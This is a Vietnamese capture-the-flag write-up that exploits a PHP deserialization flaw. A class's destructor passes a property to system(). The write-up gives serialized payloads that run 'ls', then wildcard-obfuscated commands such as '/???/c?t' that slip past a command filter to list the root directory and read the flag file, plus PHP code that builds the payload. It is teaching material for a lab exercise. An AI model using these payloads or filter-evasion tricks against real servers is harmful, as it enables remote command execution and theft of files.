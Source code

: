 Trước hết, khi nhìn vào source code của chương trình, ta thấy chương trình nhận vào một biến $_GET['payload'], challenge này thuộc dạng khai thác lỗ hổng Deserialize
nên ta sẽ truyền payload vào trong biến GET trên URL.

Nguyên văn class ban đầu của chương trình:

```PHP
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
```

Ta thấy để khai thác được lỗ hổng này thì ta cần truyền vào một biến cmd là câu lệnh sẽ được chạy trong hàm system của PHP

Nếu vậy thì đối với challenge này, ta sẽ cần đọc file flag.txt (dự đoán) đang nằm ở đâu đó trong hệ thống file của máy chủ chạy trang web này

Ta sẽ thử với payload như sau:

```
O:10:"exploit_me":1:{s:3:"cmd";s:2:"ls";}
```
Ta thấy đối với payload này, trang web không trả về kết quả nào, do trang web và hệ thống host đã có cơ chế chống thực thi trong webshell

Để bypass trường hợp này, ta cần sử dụng các ký tự đặc biệt cũng như các payload đặc biệt.

Ta sẽ thực hiện list tất cả các file nằm ở thư mục / (root) của hệ thống bằng payload:

```
O:10:%22exploit_me%22:1:%7Bs:3:%22cmd%22;s:10:%22/???/d?r%20/%22;%7D
```

Như vậy ta thấy hệ thống file được hiển thị ra, ta cần nội dung file ```a8749209e3d652e_flag```, do đó ta sẽ đổi payload sang:

```
O:10:"exploit_me":1:{s:3:"cmd";s:30:"/???/c?t /a8749209e3d652e_flag";}
```

Code PHP tạo payload:

```PHP
class exploit_me
{
    public $cmd = "/???/c?t /a8749209e3d652e_flag";
    public function __destruct(){
        system($this->cmd);
    }
}
```



